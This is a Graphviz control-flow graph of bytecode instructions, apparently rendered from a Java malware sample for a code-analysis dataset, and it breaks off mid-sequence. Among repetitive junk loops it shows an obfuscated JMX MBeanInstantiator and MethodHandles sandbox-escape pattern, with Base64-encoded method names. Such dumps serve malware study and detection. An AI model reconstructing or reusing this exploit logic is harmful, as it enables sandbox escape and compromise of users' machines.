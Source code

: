 digraph "" {
    "r0 := @this: sos"
    "new DataSet"
    "r0 := @this: sos"->"new DataSet";
    "store.r $r2"
    "new DataSet"->"store.r $r2";
    "load.r $r2"
    "store.r $r2"->"load.r $r2";
    "specialinvoke <DataSet: void <init>()>"
    "load.r $r2"->"specialinvoke <DataSet: void <init>()>";
    "specialinvoke <DataSet: void <init>()>"->"load.r $r2";
    "push 1.098"
    "load.r $r2"->"push 1.098";
    "virtualinvoke <DataSet: void add(double)>"
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "push 4.0"
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "push 9.0"
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "push 16.0"
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "push 7.0"
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "push 11.0"
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "push 0"
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "store.i i1"
    "push 0"->"store.i i1";
    "load.i i1"
    "store.i i1"->"load.i i1";
    "push 876"
    "load.i i1"->"push 876";
    "ifcmpge.i load.r $r2"
    "push 876"->"ifcmpge.i load.r $r2";
    "ifcmpge.i load.r $r2"->"load.r $r2";
    "staticinvoke <java.lang.Math: double random()>"
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "inc.i i1 1"
    "virtualinvoke <DataSet: void add(double)>"->"inc.i i1 1";
    "goto load.i i1"
    "inc.i i1 1"->"goto load.i i1";
    "store.r r0"
    "goto load.i i1"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifcmpge.i load.r $r2"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i i1";
    "store.i i1"->"load.i i1";
    "load.i i1"->"push 876";
    "ifcmpge.i push 0"
    "push 876"->"ifcmpge.i push 0";
    "ifcmpge.i push 0"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i i1 1";
    "inc.i i1 1"->"goto load.i i1";
    "ifcmpge.i push 0"->"push 0";
    "newarray"
    "push 0"->"newarray";
    "store.r $i0"
    "newarray"->"store.r $i0";
    "store.r $i0"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i i1";
    "store.i i1"->"load.i i1";
    "load.i i1"->"push 876";
    "ifcmpge.i staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"
    "push 876"->"ifcmpge.i staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>";
    "ifcmpge.i staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i i1 1";
    "inc.i i1 1"->"goto load.i i1";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"
    "ifcmpge.i staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"->"staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>";
    "store.r i1"
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"->"store.r i1";
    "store.r i1"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "store.i $r6"
    "push 0"->"store.i $r6";
    "load.i $r6"
    "store.i $r6"->"load.i $r6";
    "load.i $r6"->"push 876";
    "ifcmpge.i new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "push 876"->"ifcmpge.i new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "ifcmpge.i new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "inc.i $r6 1"
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r6 1";
    "goto load.i $r6"
    "inc.i $r6 1"->"goto load.i $r6";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "ifcmpge.i new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"
    "checkcast"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>";
    "store.r r64"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"->"store.r r64";
    "store.r r64"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i $r6";
    "store.i $r6"->"load.i $r6";
    "load.i $r6"->"push 876";
    "ifcmpge.i push 2"
    "push 876"->"ifcmpge.i push 2";
    "ifcmpge.i push 2"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r6 1";
    "inc.i $r6 1"->"goto load.i $r6";
    "push 2"
    "ifcmpge.i push 2"->"push 2";
    "push 2"->"newarray";
    "store.r $r6"
    "newarray"->"store.r $r6";
    "load.r $r6"
    "store.r $r6"->"load.r $r6";
    "load.r $r6"->"push 0";
    "push class \"Ljava/lang/String;\""
    "push 0"->"push class \"Ljava/lang/String;\"";
    "arraywrite.r"
    "push class \"Ljava/lang/String;\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r6";
    "push 1"
    "load.r $r6"->"push 1";
    "push class \"Ljava/lang/invoke/MethodType;\""
    "push 1"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "push class \"Ljava/lang/invoke/MethodHandle;\""
    "arraywrite.r"->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/Class;\""
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"load.r $r6";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "load.r $r6"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r $r6";
    "store.r $r6"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "store.i r1"
    "push 0"->"store.i r1";
    "load.i r1"
    "store.i r1"->"load.i r1";
    "load.i r1"->"push 876";
    "ifcmpge.i load.r i1"
    "push 876"->"ifcmpge.i load.r i1";
    "ifcmpge.i load.r i1"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "inc.i r1 1"
    "virtualinvoke <DataSet: void add(double)>"->"inc.i r1 1";
    "goto load.i r1"
    "inc.i r1 1"->"goto load.i r1";
    "load.r i1"
    "ifcmpge.i load.r i1"->"load.r i1";
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""
    "load.r i1"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push \"ZmluZFZpcnR1YWw=\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push \"ZmluZFZpcnR1YWw=\"";
    "staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>"
    "push \"ZmluZFZpcnR1YWw=\""->"staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>";
    "staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>"->"load.r $r6";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"
    "load.r $r6"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"store.r $r6";
    "store.r $r6"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "push 0"->"store.i r1";
    "store.i r1"->"load.i r1";
    "load.i r1"->"push 876";
    "ifcmpge.i push class \"Ljava/lang/invoke/MethodHandle;\""
    "push 876"->"ifcmpge.i push class \"Ljava/lang/invoke/MethodHandle;\"";
    "ifcmpge.i push class \"Ljava/lang/invoke/MethodHandle;\""->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"inc.i r1 1";
    "inc.i r1 1"->"goto load.i r1";
    "ifcmpge.i push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/invoke/MethodHandle;\"";
    "push class \"Ljava/lang/invoke/MethodHandle;\""->"push class \"Ljava/lang/Class;\"";
    "push class \"Ljava/lang/Class;\""->"push 1";
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "dup1.r"->"push 0";
    "push 0"->"push class \"Ljava/lang/invoke/MethodType;\"";
    "push class \"Ljava/lang/invoke/MethodType;\""->"arraywrite.r";
    "arraywrite.r"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "store.r r1"
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r1";
    "store.r r1"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 7.0";
    "push 7.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 11.0";
    "push 11.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"push 0";
    "store.i $r18"
    "push 0"->"store.i $r18";
    "load.i $r18"
    "store.i $r18"->"load.i $r18";
    "load.i $r18"->"push 876";
    "push 876"->"ifcmpge.i load.r i1";
    "ifcmpge.i load.r i1"->"load.r $r2";
    "load.r $r2"->"staticinvoke <java.lang.Math: double random()>";
    "staticinvoke <java.lang.Math: double random()>"->"virtualinvoke <DataSet: void add(double)>";
    "inc.i $r18 1"
    "virtualinvoke <DataSet: void add(double)>"->"inc.i $r18 1";
    "goto load.i $r18"
    "inc.i $r18 1"->"goto load.i $r18";
    "ifcmpge.i load.r i1"->"load.r i1";
    "load.r i1"->"push class \"Ljava/lang/invoke/MethodHandles$Lookup;\"";
    "push \"ZmluZENvbnN0cnVjdG9y\""
    "push class \"Ljava/lang/invoke/MethodHandles$Lookup;\""->"push \"ZmluZENvbnN0cnVjdG9y\"";
    "push \"ZmluZENvbnN0cnVjdG9y\""->"staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>";
    "load.r r1"
    "staticinvoke <Base64Coder: java.lang.String decodeString(java.lang.String)>"->"load.r r1";
    "load.r r1"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "store.r $r18"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"store.r $r18";
    "store.r $r18"->"load.r $r2";
    "load.r $r2"->"push 1.098";
    "push 1.098"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 4.0";
    "push 4.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 16.0";
    "push 16.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
    "load.r $r2"->"push 9.0";
    "push 9.0"->"virtualinvoke <DataSet: void add(double)>";
    "virtualinvoke <DataSet: void add(double)>"->"load.r $r2";
